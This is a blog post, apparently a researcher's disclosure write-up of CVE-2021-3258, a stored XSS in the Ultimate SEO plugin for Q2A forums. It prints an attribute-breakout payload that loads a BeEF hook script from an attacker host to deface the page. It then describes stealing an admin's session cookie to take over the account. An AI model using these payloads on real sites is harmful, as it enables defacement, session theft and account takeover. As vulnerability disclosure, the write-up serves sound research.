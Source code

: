 ```yaml
---
title: "CVE-2021-3258 | S-XSS to Defacement & Account Takeover [Q2A Themes]"
date: 2017-08-21T00:00:00+05:45
# post image
image: "images/blog/CVE-2021-3258/7th.png"
# author
author: "Nirmal Dahal"
# post type (regular/featured)
type: "regular"
# meta description
description: "The adventure began with a friend of mine asking me to resolve a problem that occurred on his site. I went to analyze the problem and I saw that the posts made on a page have some problems with its HTML. As I looked into the source of the page, I found that the title made on the post were being displayed on the meta of the webpage."
# post draft
draft: false
---
```


In this article, I am going to share a POC (Proof of Concept) on a vulnerability that I found on a popular Forum Management System by Q2A. ***Q2A is a free and open source content management system to create Question & Answer communities like StackOverflow or Yahoo Answers***. These types of management systems are used on sites where users ask questions to get answers from other users. Q2A provides high social engagement with comments, voting, following questions, tags and categories, users and has a powerful points-based reputation system.

### HOW DID IT BEGIN?

The adventure began with a friend of mine asking me to resolve a problem that occurred on his site. I went to analyze the problem and I saw that the posts made on a page have some problems with its HTML. As I looked into the source of the page, I found that the title made on the post were being displayed on the meta of the webpage.

### GETTING READY FOR ACTION

I made an account on my friend’s forum and tried to see if I could make something out of that error. So I tried to post something from my account. I posted something like Test123 and the title was being pulled in the meta. So then I tried ***">\<hr\>\<input type="*** and published on the site in the form of a post. This payload created certain very noticeable changes.

{{< image src="/images/blog/CVE-2021-3258/1st.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}

### TIME TO EXECUTE

Then I started to create my own payload to post it on the website. The payload included

```html
"><script src=”http://STATIC_IP:3000/hook.js”></script>Hacked!!!<noscript type=”
```
{{< image src="/images/blog/CVE-2021-3258/7th.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}
This payload was used to put a defacement page on the website and the ***\<noscript type="*** was used to make all the other codes not working on the webpage.

### SHOW'S NOT OVER

After the page was defaced, I had integrated a script taken from beef where if the admin tried to delete the post it would actually store the cookie session from the admin and the page would still remain defaced. There are a number of possibilities that could be done using beef. The victim can be exploited by the beef’s script by taking photos and videos of the victim.

Beef can also be used to compromise the victim’s computer if they were using a vulnerable browser.

{{< image src="/images/blog/CVE-2021-3258/2nd.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}

### FINAL SHOWDOWN

After gaining the cookie stolen from the admin, I used it to log in to the site as admin and boom

> You have been hacked

### CONCLUSION

Q2A forum was used by a mass number of users on their websites and all of them were vulnerable to this type of attack. The main cause of this vulnerability was a plugin by Q2A theme known as **Ultimate SEO version 1.3**. The plugin was meant to boost the post that is created on the websites. This plugin made easy for users to search for a particular topic and increase the visits on the website. The plugin stored the title of the post into its meta and anything stored on the meta was not sanitized. I had reported this to ***Towhid Nategheian*** and got a reply that assured a fix in its next version.

{{< image src="/images/blog/CVE-2021-3258/3rd.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}
{{< image src="/images/blog/CVE-2021-3258/4th.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}
{{< image src="/images/blog/CVE-2021-3258/5th.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}
{{< image src="/images/blog/CVE-2021-3258/6th.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}

### VIDEO POC
{{< youtube 3cWOBmzDmLY >}}

Thank you all for reading this write up If you have any confusion about this article and if I had made any mistake please leave a comment 🙂 or message me on [Twitter](https://twitter.com/TheNittam)